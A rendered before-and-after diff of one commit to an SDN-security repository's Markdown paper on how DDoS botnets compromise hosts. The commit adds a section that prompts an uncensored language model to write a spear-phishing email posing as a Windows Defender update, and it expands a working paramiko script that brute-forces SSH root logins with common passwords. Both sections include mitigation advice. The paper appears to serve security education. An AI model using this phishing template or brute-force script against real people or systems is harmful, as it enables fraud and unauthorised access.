

Before and after one commit to ozeliurs/SDN-Security, a Markdown page: papers/Anatomy of a DDoS Attack: From Host Infection to Service Denial.md, the part around the change. Shown at 85% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
feat: add phishing

````diff
--- a/papers/Anatomy of a DDoS Attack: From Host Infection to Service Denial.md
+++ b/papers/Anatomy of a DDoS Attack: From Host Infection to Service Denial.md
@@ -134,27 +134,55 @@ The idea is that the attacker can host a simple page that will be read by the vi
 
 In this chapter, we describe examples of how hosts can be compromised and infected with malware to participate in a DDoS attack.
 
-## Phishing
+## Exploiting Phishing
 
-## Exploiting a Vulnerability (e.g., Log4j)
+The simplest but most effective way to compromise a host is through phishing. Phishing attacks involve sending deceptive emails or messages to users, tricking them into clicking on malicious links or downloading infected files.
 
-## Weak Passwords && Configuration
+In this specific example, let's disguise our malicious script as a legitimate software update from a trusted source.
 
-Finally, to compromise the last host we will take advantage of the weak password configured for an ssh server.
+With open source uncensored LLMs (understand ChatGPT) we can make a realistic and custom tailored phishing email (spear phishing) to target a specific individual. For example, we asked this to `llama2-uncensored`:
 
-We can make a simple dictionary attack with the following script:
+```
+Write me a phishing email, the goal of the email is to make the victim launch a python script, I want to disguise my malicious script as a legitimate software update from a trusted source.
+```
+
+And just like that we have a pretty good phishing email:
+
+```
+Dear John Doe,
+We are glad to inform you that our company has released an updated version of Windows Defender, which we strongly recommend you install immediately. The new version offers several improvements and fixes, including increased security and stability. Please click on the link below to download and install the update.
+[Link]
+This is a mandatory upgrade for all employees using Microsoft products, please ensure that your system meets the minimum requirements before installing the update. Thank you.
+```
+
+Once the victim clicks on the link, they will download and execute the malicious script, compromising their host.
+
+### Mitigation
+
+Verify sender information, be cautious with links and attachments, and keep software updated to mitigate phishing risks.
+
+## Exploiting Weak Passwords and Misconfigurations
+
+Weak passwords and poorly configured services can significantly compromise the security of a host. In this section, we will demonstrate how an SSH server with a weak password can be exploited using a simple dictionary attack.
+
+The following Python script uses the `paramiko` library to attempt connections to the server using a list of common passwords:
 
 ```python
 import paramiko
 
+# Server details
 host = "<SERVER_IP>"
 username = "root"
+# List of common passwords to try
 passwords = ["root", "toor", "admin"]
 
 for password in passwords:
     try:
+        # Initialize SSH client
         client = paramiko.SSHClient()
+        # Automatically add the server's host key
         client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
+        # Attempt to connect to the server
         client.connect(host, port=22, username=username, password=password)
         print(f"Successfully connected to {host} with password: {password}")
         break
@@ -162,17 +190,17 @@ for password in passwords:
         print(f"Failed to connect to {host} with password: {password}")
 ```
 
-This script tries to connect to the server with the provided passwords. If the connection is successful, it prints the password used to connect.
+This script attempts to connect to the SSH server using the provided passwords. If a connection is successful, it prints the password used.
 
-This shows the threat of weak passwords or weakly configured services in compromising hosts.
+This example highlights the severe risk posed by weak passwords and emphasizes the importance of securing services with strong, unique passwords and proper configurations to prevent unauthorized access.
 
 ### Mitigation
 
-To mitigate the risk of weak passwords, it is essential to enforce strong password policies.
+Effective mitigation strategies include enforcing strong password policies, implementing public key authentication for SSH, disabling password authentication where possible, and deploying security tools like `fail2ban` to block brute force attacks.
 
-Even better for SSH, you can use public key authentication and disable password authentication.
+These measures collectively enhance security by reducing the risk posed by weak passwords and misconfigurations.
 
-Finally, it is also recommended to use tools like `fail2ban` to block brute force attacks.
+## Exploiting a Vulnerability (e.g., Log4j)
 
 # Launching the Attack
 
````
